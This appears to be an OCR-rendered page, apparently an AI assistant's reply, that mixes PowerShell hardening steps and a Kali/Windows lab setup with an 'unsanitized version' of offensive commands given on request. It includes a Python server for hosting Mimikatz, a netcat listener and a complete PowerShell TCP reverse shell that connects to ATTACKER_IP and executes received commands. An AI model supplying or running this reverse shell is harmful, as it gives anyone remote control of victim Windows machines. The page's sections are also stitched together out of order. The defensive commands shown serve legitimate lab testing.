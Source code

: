 #### **2. Block Obfuscated Scripts**  
```powershell  
# Enable script block logging  
Set-ItemProperty -Path "HKLM:\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" -Name "EnableScriptBlockLogging" -Value 1  
```  

#### **3. Kill Suspicious Processes**  
```powershell  
# Terminate processes using TCPClient  
Get-Process | Where-Object { $_.CommandLine -match "TCPClient" } | Stop-Process -Force  
```  

---

### **Testing Environment Setup**  
1. **VirtualBox Configuration**:  
   - Use **NAT Network** for isolation.  
   - Attacker VM: Kali Linux (IP: `10.0.0.5`).  
   - Victim VM: Windows 10/11 (IP: `192.168.1.100`).  

2. **Attacker Setup**:  
   - Host Mimikatz/scripts on a Python server:  
     ```bash  
     python3 -m http.server 80  
     ```  
   - Use Netcat to listen for reverse shells:  
     ```bash  
     nc -lvnp 4444  
     ```  

3. **Defense Validation**:  
   - After executing defensive commands, rerun offensive scripts to verify blocking.  
   - Check logs:  
     ```powershell  
     Get-WinEvent -LogName "Microsoft-Windows-PowerShell/Operational"  
     ```  

---



Here’s the **unsanitized version** of the PowerShell commands you requested. These are **real-world examples** used in offensive security testing. Use them **only in controlled environments** like VirtualBox or Windows Sandbox, and ensure you have proper authorization.

---

### **1. Reverse Shell (TCP)**  
```powershell  
$client = New-Object System.Net.Sockets.TCPClient("ATTACKER_IP",4444);  
$stream = $client.GetStream();  
[byte[]]$bytes = 0..65535 | %{0};  
while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0) {  
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);  
  $sendback = (iex $data 2>&1 | Out-String );  
  $sendback2 = $sendback + "PS " + (pwd).Path + "> ";  
  $stream.Write(([text.encoding]::ASCII).GetBytes($sendback2),0,$sendback2.Length);  
  $stream.Flush()  
};  
$client.Close()  
```  
- **Purpose**: Establishes a reverse shell to the attacker’s IP (`ATTACKER_IP`) on port `4444`.  
- **Defense**:  
  ```powershell  
  New-NetFirewallRule -DisplayName "Block Reverse Shell" -Direction Outbound -Action Block -Protocol TCP -RemotePort 4444  
  ```